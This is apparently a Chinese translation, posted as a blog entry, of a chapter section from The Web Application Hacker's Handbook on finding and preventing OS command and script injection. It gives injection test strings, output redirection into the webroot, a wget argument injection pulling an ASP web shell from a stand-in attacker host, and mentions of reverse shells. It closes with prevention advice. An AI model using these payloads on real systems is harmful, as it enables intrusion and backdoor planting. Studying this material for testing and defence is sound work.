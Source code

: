 ```yaml
---
layout:     post
title:      Chapter 10 Attacking Back-End Components(1)-Injecting OS Commands(2)
subtitle:   注入操作系统命令(2)
date:       2020-03-16
author:     D
header-img: 
catalog: true
mermaid: true
tags: [web hacking]
---
```


参考:**The Web Application Hackers Handbook** Chapter 10

# 1.查找OS命令注入缺陷(Finding OS Command Injection Flaws)

在应用程序映射练习（请参阅第4章）中，您应该已经确定了通过调用外部进程或访问文件系统Web应用程序似乎与基础操作系统进行交互的任何实例。 您应该探究所有这些功能，以查找命令注入缺陷。 但是，实际上，该应用程序可能会发出操作系统命令绝对包含用户提供的任何数据，包括每个URL和主体参数以及每个cookie。 因此，要对应用程序进行全面测试，您需要针对每个应用程序功能中的所有这些项目。

不同的命令解释器以不同的方式处理外壳元字符。 原则上，任何类型的应用程序开发平台或Web服务器都可以调用在自己的操作系统或任何其他主机的操作系统上运行的任何类型的Shell解释器。 因此，您不应基于对Web服务器操作系统的任何了解而对应用程序对元字符的处理做出任何假设。

可以使用两种类型的元字符将单独的命令注入到现有的预设命令中：
- 那些角色 `;` `|` `＆`和`换行符`可用于批处理多个命令，一个接一个。 在某些情况下，这些字符可能会加倍效果不同。 例如，在Windows命令解释器中，使用`&&`会使第二个命令仅在第一次成功时运行。 使用`||` 不管第一个命令是否成功，都会使第二个命令始终运行。
- 反引号(`)可用于将单独的命令封装在由原始命令处理的数据项中。 将注入的命令放在反引号内会导致外壳解释程序执行该命令，并在继续执行结果命令字符串之前，用该命令的结果替换封装的文本。

在前面的示例中，很容易验证是否可以进行命令注入并检索注入的命令的结果，因为这些结果在应用程序的响应中立即返回。 但是，在许多情况下，这可能是不可能的。 您可能正在注入
该命令不会返回任何结果，并且不会以任何可识别的方式影响应用程序的后续处理。 否则，您用来注入所选命令的方法可能会因为将多个命令一起批处理而丢失其结果。

通常，检测命令注入是否可能的最可靠方法是使用时延推断，方法与描述盲SQL注入所描述的方法类似。 如果看起来存在潜在的漏洞，则可以使用其他方法进行确认并检索注入命令的结果。

**HACK STEPS**
- 1.通常，您可以通过使服务器在特定时间段内对其loopback接口执行ping操作，使用ping命令来触发时间延迟。 Windows和基于UNIX的平台处理命令分隔符和ping命令的方式之间存在细微差别，但是，如果没有适当的过滤，以下通用测试字符串将在这两个平台上引起30秒的时间延迟：
```
|| ping -i 30 127.0.0.1 ; x || ping -n 30 127.0.0.1 &
```
为了最大程度地在应用程序过滤某些命令分隔符时检测到命令注入缺陷的机会，还应该依次将以下每个测试字符串提交给每个目标参数，并监视应用程序响应所花费的时间：
```
| ping –i 30 127.0.0.1 |
| ping –n 30 127.0.0.1 |
& ping –i 30 127.0.0.1 &
& ping –n 30 127.0.0.1 &
; ping 127.0.0.1 ;
%0a ping –i 30 127.0.0.1 %0a
` ping 127.0.0.1 `
```
- 2.如果出现时间延迟，该应用程序可能容易受到命令注入的攻击。 重复测试用例几次，以确认延迟不是由网络延迟或其他异常引起的。 您可以尝试更改`-n`或`-i`参数的值，并确认经历的延迟随提供的值而系统地变化。
- 3.使用发现成功的注入字符串中的任何一个，尝试注入更有趣的命令（例如ls或dir）。 确定是否可以将命令结果检索到浏览器。
- 4.如果无法直接检索结果，则还有其他选择：
	- 4.1 您可以尝试打开带外通道回到您的计算机。 尝试使用TFTP将工具复制到服务器，使用telnet或netcat将反向外壳创建回计算机，并使用`mail`命令通过SMTP发送命令输出。
	- 4.2 您可以将命令的结果重定向到webroot中的文件，然后可以使用浏览器直接检索该文件。 例如：
```
dir > c:\inetpub\wwwroot\foo.txt
```
- 5.找到注入命令并检索结果的方法后，应确定特权级别（通过使用whoami或类似方法，或尝试将无害文件写入受保护的目录）。 然后，您可以寻求提升特权，获取对敏感应用程序数据的后门访问权限，或攻击可从受感染服务器访问的其他主机。

在某些情况下，由于过滤所需字符或应用程序正在使用的命令API的行为，可能无法注入完全独立的命令。 但是，仍然有可能干扰正在执行的命令的行为以实现某些所需的结果。

在作者看到的一个实例中，应用程序将用户输入传递给操作系统命令nslookup，以查找用户提供的域名的IP地址。 注入新命令所需的元字符被阻止，但允许用于重定向命令的输入和输出的<和>字符。 nslookup命令通常输出域名的IP地址，该域名似乎没有提供有效的攻击媒介。 但是，如果提供了无效的域名，该命令将输出一条错误消息，其中包含已查找的域名。 事实证明，此行为足以发出严重的攻击：
- 提交服务器可执行脚本代码的片段作为要解析的域名。 可以将脚本封装在引号中，以确保命令解释器将其视为单个令牌。
- 使用`>`字符可将命令的输出重定向到网络根目录下的可执行文件夹中的文件。 操作系统执行的命令如下：
```
nslookup “[script code]” > [/path/to/executable_file]
```
- 运行命令时，以下输出将重定向到可执行文件：
```
** server can’t find [script code]: NXDOMAIN
```
- 然后可以使用浏览器调用该文件，并在服务器上执行注入的脚本代码。 因为大多数脚本语言都允许页面包含客户端内容和服务器端标记的混合，所以攻击者无法控制的错误消息部分仅被视为纯文本，并且将执行注入脚本中的标记。 因此，该攻击成功利用了受限制的命令注入条件，将不受限制的后门引入了应用服务器。

**HACK STEPS**
- 1.`<`和`>`字符分别用于将文件的内容定向到命令的输入并将命令的输出定向到文件。 如果无法使用上述技术来注入完全独立的命令，您仍然可以使用`<`和`>`字符读取和写入任意文件内容。
- 2.应用程序调用的许多操作系统命令都接受许多控制其行为的命令行参数。 通常，用户提供的输入将作为这些参数之一传递给命令，并且您可能能够简单地通过在相关参数后面插入一个空格来添加更多参数。 例如，Web创作应用程序可以包含一个功能，其中服务器检索用户指定的URL，并将其内容呈现在浏览器中以进行编辑。 如果应用程序只是调用wget程序，则可以通过附加wget使用的-O命令行参数，将任意文件内容写入服务器的文件系统。 例如：
```
url=http://wahh-attacker.com/%20-O%20c:\inetpub\wwwroot\scripts\
cmdasp.asp
```

**TIP**
许多命令注入攻击都要求您注入空格以分隔命令行参数。 如果发现应用程序正在过滤空间，并且所攻击的平台是基于UNIX的平台，则可以改用$ IFS环境变量，该变量包含空白字段分隔符。


# 2.查找动态执行漏洞(Finding Dynamic Execution Vulnerabilities)

动态执行漏洞最常见于PHP和Perl等语言。 但是原则上，任何类型的应用程序平台都可以将用户提供的输入传递给基于脚本的解释器，有时是在不同的后端服务器上。
**HACK STEPS**
- 1.用户提供的任何数据都可以传递给动态执行功能。 以这种方式最常使用的一些项目是cookie参数的名称和值以及作为先前操作的结果存储在用户配置文件中的持久性数据。
- 2.尝试依次提交以下值作为每个目标参数：
```
;echo%20111111
echo%20111111
response.write%20111111
:response.write%20111111
```
- 3.查看应用程序的响应。 如果字符串`111111`单独返回（命令字符串的其余部分之前没有返回），则该应用程序很可能容易受到脚本命令的注入。
- 4.如果未返回字符串`111111`，请查找任何错误消息，这些消息指示正在动态执行您的输入，并且可能需要微调语法以实现注入任意命令。
- 5.如果您要攻击的应用程序使用PHP，则可以使用测试字符串`phpinfo()`，如果成功，它将返回PHP环境的配置详细信息。
- 6.如果应用程序似乎容易受到攻击，请通过注入一些导致时间延迟的命令进行验证，如先前针对OS命令注入所述。 例如：
```
system(‘ping%20127.0.0.1’)
```

# 3.防止OS命令注入(Preventing OS Command Injection)

通常，防止出现OS命令注入缺陷的最佳方法是避免直接调用操作系统命令。 几乎可以使用内置API来实现Web应用程序可能需要执行的任何可能的任务，这些内置API无法操纵内置API来执行除预期的命令以外的命令。

如果认为不可避免的是将用户提供的数据嵌入到传递给操作系统命令解释器的命令字符串中，则应用程序应执行严格的防御措施以防止出现漏洞。 如果可能，应使用白名单将用户输入限制为一组特定的期望值。 或者，应将输入限制为非常狭窄的字符集，例如仅字母数字字符。 包含任何其他数据（包括任何可能的元字符或空格）的输入应被拒绝。

作为进一步的保护层，应用程序应使用通过其名称和命令行参数启动特定进程的命令API，而不是将命令字符串传递给支持命令链接和重定向的Shell解释器。 例如，Java API `Runtime.exec`和ASP.NET API `Process.Start`不支持外壳元字符。如果使用得当，他们可以确保仅执行开发人员想要的命令。 有关命令执行API的更多详细信息，请参见第19章。

# 4.防止脚本注入漏洞(Preventing Script Injection Vulnerabilities)

通常，避免脚本注入漏洞的最佳方法是不将用户提供的输入或从中获取的数据传递到任何动态执行或包含函数中。 如果出于某种原因认为这是不可避免的，则应严格验证相关输入，以防止发生任何攻击。 如果可能，请使用应用程序期望的已知良好值的白名单，并拒绝该列表中未出现的所有输入。 如果失败，请对照已知无害的集合检查输入中使用的字符，例如不包含空格的字母数字字符。


[Chapter 10 Attacking Back-End Components(1)-Injecting OS Commands(1)](https://dm116.github.io/2020/03/16/attacking-back-end-components_1_1/)<br>
[Chapter 10 Attacking Back-End Components(2)-Manipulating File Paths](https://dm116.github.io/2020/03/16/attacking-back-end-components_2/)<br>

